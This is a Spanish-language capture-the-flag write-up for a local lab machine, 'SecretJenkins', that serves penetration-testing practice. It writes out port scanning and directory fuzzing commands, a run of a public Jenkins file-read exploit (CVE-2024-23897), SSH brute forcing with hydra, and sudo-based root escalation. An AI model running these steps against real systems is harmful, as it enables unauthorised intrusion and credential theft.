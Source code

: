 # **Máquina: SecretJenkins**

**Dificultad:** Fácil

### 📝 **Descripción:**

SecretJenkins es una máquina vulnerable de nivel fácil orientada a la práctica de técnicas esenciales de pentesting. A través de un entorno web basado en Jenkins, el atacante deberá identificar servicios expuestos, reconocer vulnerabilidades conocidas, explotar una LFI (Local File Inclusion), obtener credenciales mediante fuerza bruta, y finalmente realizar una doble escalada de privilegios para obtener acceso total como root.

---

### 🎯 **Objetivo:**

El objetivo es comprometer completamente la máquina escalando privilegios hasta el usuario root, iniciando desde el análisis de puertos, explotación del servicio Jenkins, acceso mediante SSH y aprovechamiento de configuraciones de `sudo` para lograr el control total del sistema.


![Logo](Imágenes/2025-05-15_20-59.png)

---

## 🖥️ **Despliegue de la máquina**

Primero descargamos la máquina vulnerable `secretjenkins.zip`, la descomprimimos con `unzip` y luego la desplegamos utilizando el script proporcionado:

```bash
unzip secretjenkins.zip
sudo bash auto_deploy.sh secretjenkins.tar
```

Esto levanta la máquina en un entorno Docker.
![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Hacemos un ping a la IP asignada (`172.17.0.3`) para confirmar que la máquina está activa:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo con `nmap` para detectar todos los puertos abiertos de la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Se detectan los siguientes puertos abiertos:

* **22 (SSH)**
* **8080 (HTTP)**
  ![Puertos](Imágenes/Capturas_2.png)

Posteriormente, con un script personalizado `extractPorts`, extraemos los puertos encontrados y los usamos para un escaneo más profundo:

```bash
nmap -sCV -p22,8080 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Exploración del servicio web**

Al acceder en el navegador a la URL `http://172.17.0.3:8080/`, observamos que se trata del panel de **Jenkins**, un software de integración continua muy utilizado.
![Pagina](Imágenes/Capturas_4.png)

---

## 🚪 **Fuzzing de directorios ocultos**

Usamos `gobuster` para buscar rutas ocultas que puedan revelar vulnerabilidades o recursos sensibles:

```bash
gobuster dir -u http://172.17.0.3:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Aunque se encontraron muchos directorios, al acceder a varios de ellos el sitio comenzó a fallar, lo que sugiere una posible **vulnerabilidad de Denegación de Servicio (DoS)**.
![Fuzzing](Imágenes/Capturas_5.png)

---

## 🕵️‍♂️ **Identificación de la versión de Jenkins**

Con `whatweb` identificamos que Jenkins está corriendo en la versión **2.441**:

```bash
whatweb 'http://172.17.0.3:8080/'
```

![whatweb](Imágenes/Capturas_6.png)

Aunque `searchsploit` no arrojó resultados relevantes para esta versión, buscando manualmente en internet encontramos una vulnerabilidad **LFI (Local File Inclusion)** identificada como:

🔎 **CVE-2024-23897**
📄 Exploit: [https://www.exploit-db.com/exploits/51993](https://www.exploit-db.com/exploits/51993)

---

## 🐍 **Ejecución del exploit**

Copiamos el código del exploit en un archivo llamado `local_host_intrusion.py`, le damos permisos de ejecución y lo lanzamos:

```bash
chmod +x local_host_intrusion.py
python3 local_host_intrusion.py -u http://172.17.0.3:8080
```

El script permite leer archivos del sistema. Uno de los primeros archivos que leemos es `/etc/passwd`, lo cual nos revela la existencia de varios usuarios: `root`, `bobby`, y `pinguinito`.
![sxploit](Imágenes/Capturas_7.png)

---

## 🧨 **Ataque de fuerza bruta (Brute Force) sobre SSH**

Con los usuarios obtenidos, creamos un archivo `usuarios.txt` y lanzamos un ataque de fuerza bruta con `hydra` sobre el servicio SSH:

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4
```

¡Éxito! Se encontraron credenciales válidas:

* **Usuario:** `bobby`
* **Contraseña:** `chocolate`
  ![hydra](Imágenes/Capturas_8.png)

---

## 🔐 **Acceso inicial como bobby**

Nos conectamos por SSH con las credenciales encontradas:

```bash
ssh bobby@172.17.0.3
```

Luego verificamos los permisos de `sudo` con:

```bash
sudo -l
```

Y encontramos que `bobby` puede ejecutar `python3` como el usuario `pinguinito` sin contraseña. Aprovechamos esto para escalar de usuario:

```bash
sudo -u pinguinito /usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![usuario](Imágenes/Capturas_9.png)

---

## 🚀 **Escalada a root**

Ya como `pinguinito`, volvemos a revisar los privilegios con `sudo -l` y descubrimos que tiene permisos para ejecutar un script específico:

```bash
(pinguinito) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Esto significa que puede ejecutar **ese archivo específico** con permisos de root. Si podemos modificar ese archivo, podemos ganar acceso total.

Eliminamos el contenido original (si existe) y escribimos un script malicioso que nos dé una shell:

```bash
echo 'import os; os.system("/bin/bash")' > /opt/script.py
```

Luego lo ejecutamos con:

```bash
sudo /usr/bin/python3 /opt/script.py
```

¡Y obtenemos acceso como **root**!
![usuario](Imágenes/Capturas_10.png)

---

## 🏁 **Conclusión**

Esta máquina nos permitió practicar múltiples técnicas fundamentales en el hacking ético:

* Escaneo y enumeración de servicios
* Reconocimiento de versiones y fuzzing
* Explotación de vulnerabilidad LFI
* Ataque de fuerza bruta sobre SSH
* Escalada de privilegios usando `sudo`
* Abuso de scripts con permisos específicos

Una máquina ideal para quienes están empezando, ya que cubre un flujo de ataque muy completo de forma práctica y comprensible.
